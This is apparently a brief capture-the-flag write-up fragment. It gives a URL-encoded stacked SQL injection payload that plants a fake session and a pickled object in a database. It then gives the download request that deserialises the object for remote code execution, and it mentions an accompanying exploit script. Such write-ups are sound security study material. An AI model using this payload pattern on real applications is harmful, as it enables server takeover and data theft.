The 2 SQLI payloads + deserialized object to RCE:
\;%0AINSERT%0AOR%0AIGNORE%0AINTO%0Aactivesessions%0A(sessionid,%0Ausername,%0Atimestamp)%0AVALUES%0A(\TESTCTF\,%0A\TESTCTF\,%0A\TESTCTF\);%0AINSERT%0AINTO%0Afiles%0A(filename,%0Adata,%0Asessionid)%0AVALUES%0A(\\{filename}\,%0A\\{pickled}\,%0A\TESTCTF\\);--

Then navigate to the path /download/{filename}/{sessionid} using the injected sessionid and filename. This will trigger the deserialization of the object.

script available on exploit.py
